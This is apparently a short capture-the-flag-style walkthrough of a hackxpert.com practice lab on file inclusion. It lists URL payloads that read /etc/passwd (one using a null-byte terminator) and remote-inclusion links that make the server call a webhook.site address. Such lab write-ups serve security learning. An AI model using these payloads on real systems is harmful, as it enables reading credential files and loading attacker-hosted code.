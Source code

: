 # URL :- `https://hackxpert.com/labs/RFI/`

![image](https://user-images.githubusercontent.com/60841283/151149695-2b7d147e-55f0-4d9c-827d-f837e7f90da0.png)

## Search Bar 1

LFI  :- `https://hackxpert.com/labs/RFI/endPoint.php?field2_name=/etc/passwd`

![image](https://user-images.githubusercontent.com/60841283/151150353-bc09dd62-a474-4093-bbc2-f08f52659db3.png)

### Use webhook service to receive requests
> https://webhook.site/

Vuln Link :- `https://hackxpert.com/labs/RFI/endPoint.php?field2_name=https://webhook.site/803f35b3-7b03-4a46-85b4-5cdc1a548ff7`

![image](https://user-images.githubusercontent.com/60841283/151150144-f6667f89-1440-4b58-9b64-5e666a7314fe.png)

## Search bar 2
LFI :- `https://hackxpert.com/labs/RFI/endPoint-2.php?field2_name=/etc/passwd%00&submit=submit&parent_id=0`

RFI Vuln :- `https://hackxpert.com/labs/RFI/endPoint-2.php?field2_name=https://webhook.site/803f35b3-7b03-4a46-85b4-5cdc1a548ff7%00`

![image](https://user-images.githubusercontent.com/60841283/151150916-061100b6-5b7e-44c6-ab1d-5cfc65977696.png)

## Special Lab
LFI :- `https://hackxpert.com/labs/RFI/rat.php?field2_name=/etc/passwd`

Vuln Link :- `https://hackxpert.com/labs/RFI/rat.php?field2_name=https://webhook.site/803f35b3-7b03-4a46-85b4-5cdc1a548ff7`

![image](https://user-images.githubusercontent.com/60841283/151151325-58dbace2-1dc8-444c-981f-acaf2bbc1e28.png)
